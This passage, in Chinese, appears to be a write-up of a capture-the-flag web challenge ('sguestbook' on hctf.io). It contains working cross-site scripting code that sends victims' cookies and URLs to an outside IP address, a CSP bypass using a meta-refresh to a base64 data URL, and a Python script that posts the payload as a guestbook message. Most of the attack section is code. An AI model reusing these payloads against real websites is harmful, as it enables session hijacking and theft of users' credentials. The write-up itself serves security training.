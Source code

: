 ><script>
>function redirect(){ 
>window.location.href='http://163.44.155.179/index2.php/'+document.cookie+document.URL;//
>}
>window.onload = function(){
>setTimeout(redirect, 3000)
>}
></script>

这就是最后盗cookie的关键代码。

然后在CSP绕过这一块，google一番后发现如下payload:

><META HTTP-EQUIV="refresh" COONNTENT="0; url=data:text/html;base64,XXXXX>

这种形式可以使得浏览器执行你的js代码，但浏览器并不允许data直接访问cookie，所以必须结合上述的方法，但上述404的referer反射型xss的触发条件是要构造一个malicious的referer，所以我们先通过跳转到那个malicious的referer的网址，再跳转会最终的404页面，触发xss。话不多说，直接上py脚本。

***CSP_bypass.py***

```python
from http import http
import urllib
import hashlib
import random
from base64 import b64encode

headers_aaaa = {'Cookie':'PHPSESSID=hntflqiue7i9qao2ip23jbmle7'}

def get_main(headers):
	return http('get','sguestbook.hctf.io',80,'/user.php','',headers)

def send_msg(user,headers,msg):
	return 	http('post','sguestbook.hctf.io',80,'/submit.php','to=%s&message=%s'%(user,urllib.quote(msg)),headers)
r = hashlib.md5(str(random.randint(1,10000000))).hexdigest()
payload = 		'''<script>document.location="http://163.44.155.179/index2.php/\'+document.cookie+document.URL;//";</script>'''
payload = b64encode(payload)
print 'data:text/html;base64,'+payload
payload = '<META HTTP-EQUIV="refresh" COONNTENT="0; url=data:text/html;base64,' + payload +'">'

for i in range(1):
    send_msg('haozi14',headers_aaaa,r+payload)
```
服务器端的脚本为：

><script>
>window.location.href = "http://sguestbook.hctf.io/xxx.php";
></script>

最终可在服务器的日志中捕获到cookie：

 ![4](jpg\4.jpg)
